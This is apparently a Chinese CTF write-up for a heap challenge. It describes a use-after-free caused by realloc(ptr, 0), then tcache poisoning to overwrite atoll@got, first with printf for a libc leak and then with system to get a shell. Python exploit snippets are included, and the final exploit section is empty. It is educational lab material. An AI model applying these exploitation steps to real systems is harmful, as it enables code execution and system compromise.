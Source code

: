同样使用realloc()函数进行free操作，并对指针清零

## 漏洞点

程序的 `rfree` 函数做了清空指针操作，看似杜绝了 UAF ，实际上在 `reallocate` 函数中调用 `realloc` 时，将其参数 size 置为 0，就等效于调用了 `free(ptr)`，且此时是没有清空 heap[2] 数组中的指针的。由此造成 UAF。

## 利用

由于程序的 got 表可写，故思路为：通过修改某参数为可控内容的内存指针的函数的 got 表项为 system 函数地址，传入 `"/bin/sh\x00"` 即可 get shell。

- 利用上述 UAF 漏洞，在两处 tcache 项上放置 atoll@got ，准备对其进行篡改

```python
# UAF 放置 atoll@got 至 tcache@0x20
alloc(0, 0x18, "AAA")
realloc(0, 0, "")
realloc(0, 0x18, p64(elf.got["atoll"])) # 由于 realloc 函数中 ptr 指向 tcache free chunk 时，其不会将该 chunk 从 tcache 中取出 [1]，故此处相当于 edit 功能 
alloc(1, 0x18, "BBB")

# 清零 heap[0]、heap[1]，以进行第二次放置
realloc(0, 0x28, "CCC")
free(0)
realloc(1, 0x28, "s"*0x10) # 因为[1]处原因，且 rfree 也由 realloc 实现，故此处需要将 fd 与 key 都覆盖为垃圾数据，确保 key 被修改以绕过 double free 检查
free(1)
```

- 第二次放置也一样

```python
# UAF 放置 atoll@got 至 tcache@0x40 
alloc(0, 0x38, "AAA") 
realloc(0, 0, "") 
realloc(0, 0x38, p64(elf.got["atoll"])) # 由于 realloc 函数中 ptr 指向 tcache free chunk 时，其不会将该 chunk 从 tcache 中取出，故此处相当于 edit 功能  alloc(1, 0x38, "BBB") 
 
# 清零 heap[0]、heap[1]，以进行接下来的利用 
realloc(0, 0x48, "CCC") 
free(0) 
realloc(1, 0x48, "s"*0x10) # 因为[1]处原因，且 rfree 也由 realloc 实现，故此处需要将 fd 与 key 都覆盖为垃圾数据，确保 key 被修改以绕过 double free 检查 
free(1) 
```

- 利用其中一个指向`atoll_got`的 chunk 更改`atoll_got`为`printf_plt`，这样在调用`atoll`时，就会调用`printf`从而构造出一个格式化字符串漏洞，利用这个漏洞可以 leak 出栈上的libc地址，这里选择 leak`__libc_start_main`
  补充：这里利用格式化字符串的常量为调试所得，例如%21$llx，例如0xeb（即235）因为获得的地址是<__libc_start_main+235>

- 利用另一个指向`atoll_got`的 chunk 将`atoll_got`再改成`system`，注意因为此时`atoll`是`printf`，所以在调用 alloc 时，需要输入的 Index 和 Size 不是直接输入数字，而是通过输入的 string 的长度来通过 printf 返回的值间接传给Index和Size。
- 最后再输入`/bin/sh\x00`调用`atoll`来执行`system("/bin/sh");`即可 get shell。

## exp
